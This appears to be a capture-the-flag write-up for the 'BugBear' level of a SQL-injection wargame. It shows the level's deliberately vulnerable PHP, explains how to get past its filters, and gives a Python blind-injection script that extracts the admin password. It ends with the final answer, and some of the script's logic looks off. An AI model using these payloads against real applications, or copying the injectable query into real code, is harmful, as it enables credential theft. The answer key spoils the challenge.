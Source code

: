 # **BugBear**

```
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");   
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");   
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe");   
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";   
     
  $_GET[pw] = addslashes($_GET[pw]);   
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear");   
  highlight_file(__FILE__);   
?>
```

We can't escape `$_GET[no]` euther in this challenge.

In this challenge, `space`, `like` & `0x` hexcode are unfortunately not work any more.

However, we can change `like` into `regexp`, `0x61` hexcode into `char(97)` then concat() them together, finally replace `space` with `/**/` comment mark.

![](https://i.imgur.com/ApoUEWS.png)

```
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""

pwNotInChar = False
for i in range(len(Passwd)+1,100):
    for c in "0123456789abcdefghijklmnopqrstuvwxyz+":

        Payload="1/**/||/**/id/**/regexp/**/concat(char(97),char(100),char(109),char(105),char(110))/**/&&/**/mid(pw,"+str(i)+",1)/**/regexp/**/"+str(bin(ord(c)))

        HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

        print (Payload)
                
        if (b"Hello admin" in HTTP.getresponse().read()):
            Passwd+=c
            print ("[+] Found: %c" % c)

            HTTP.request("GET",Url+urllib.parse.quote(Passwd),"",Headers)
        if (str(c) == "+"):
            pwNotInChar = True
            break
    if(pwNotInChar == True):
        break
    
print ("[!] Not Found")
print ("[*] Password: %s" % Passwd)
```

![](https://i.imgur.com/tWCNGkb.png)

This challenge's payload should be : 
`?pw=735c2773`

Mmmmmmm.....call it ANSWER seems more better, lol.
